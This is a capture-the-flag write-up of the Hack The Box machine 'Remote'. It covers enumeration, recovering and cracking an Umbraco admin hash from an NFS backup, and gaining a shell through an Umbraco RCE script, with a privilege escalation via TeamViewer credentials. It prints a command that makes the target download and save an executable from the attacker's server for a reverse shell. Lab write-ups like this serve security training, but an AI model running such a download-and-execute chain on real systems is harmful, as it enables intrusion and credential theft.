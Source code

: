 ```yaml
---
layout: single
title: Remote
date: 2020-12-24
header:
  teaser: /assets/images/htb/header.png
tags:
  - htb
  - umbraco
  - metasploit
  - msfvenom
  - windows
  - winpeas
  - evil-winrm
---
```


![nmap](/assets/images/htb/remote/header.png)

### Port Scanning and general enumeration (Nmap, Umbraco)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [Umbraco](https://umbraco.com/)
 
`nmap -sC -sV -oN nmap/initial -T4 10.10.10.180`

![nmap](/assets/images/htb/remote/nmap.png)

Interesting. FTP, Webserver and maybe some nfs shares we can mount?

Let's take a look at the site

![nmap](/assets/images/htb/remote/site1.png)

Looks like some sort of blog.. 'Umbraco'?

![nmap](/assets/images/htb/remote/site2.png)

![nmap](/assets/images/htb/remote/login.png)

So we've found a login form. Nice. Default creds didn't work, so we'll come back to this.

Let's see if there's anything to mount

![nmap](/assets/images/htb/remote/showmount.png)

Interesting! Let's mount it

`sudo mount -t nfs 10.10.10.180:/site_backups /path/to/where/you/want/to/save/it`

Full site backup!

Since we know the backend is **Umbraco**, we can find the version in the `Web.config` file and credentials in the `App_Data/Umbraco.sdf` file.

Version:

![nmap](/assets/images/htb/remote/version.png)

To get the credentials we can run `strings` on the `Umbraco.sdf` file, redirect it to a file and run `head` on that file

![nmap](/assets/images/htb/remote/creds.png)

So the admin password is a `SHA1` hash. Let's crack it and log in using `Admin@htb.local:cracked-password` in the forms we found earlier.

---

### Access (Umbraco RCE, msfvenom)
* Reading/Resources
  * [Umbraco RCE](https://github.com/noraj/Umbraco-RCE)
  * [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
  * [Metasploit](https://www.metasploit.com/)
  

So now that we're authenticated we have a little more room to play with things. I found this [Umbraco RCE](https://github.com/noraj/Umbraco-RCE) script that should be perfect

![nmap](/assets/images/htb/remote/rce.png)

Nice! So now we have remote code execution. Let's get a proper shell

![nmap](/assets/images/htb/remote/msvenom.png)

Stand up a simple [python http server](https://docs.python.org/3/library/http.server.html) and use the exploit to transfer our executable to the machine

`python3 exploit.py -u admin@htb.local -p password -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command Invoke-WebRequest -Uri http://10.10.14.22:8000/rev.exe -OutFile C:/Users/Public/rev.exe`

Now that our shell is on the box, let's fire up a `metasploit` listener

![nmap](/assets/images/htb/remote/listener.png)

Trigger the shell and off we go

---

### Privesc (winPEAS, evil-winrm)
* Reading/Resources
  * [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)

Now that we're on the box, let's do some enumeration. I like [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Upload and run it

![nmap](/assets/images/htb/remote/peasupload.png)

![nmap](/assets/images/htb/remote/peas.png)

Interesting. Teamviewer7 also has a [metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md). Let's see what that has for us

Background your meterpreter session and

![nmap](/assets/images/htb/remote/teamviewersearch.png)

![nmap](/assets/images/htb/remote/teamviewerpassword.png)

Could that be the **Admin** password? Let's check using [evil-winrm](https://github.com/Hackplayers/evil-winrm)

![nmap](/assets/images/htb/remote/admin.png)

![nmap](/assets/images/htb/remote/userflag.png)

![nmap](/assets/images/htb/remote/rootflag.png)
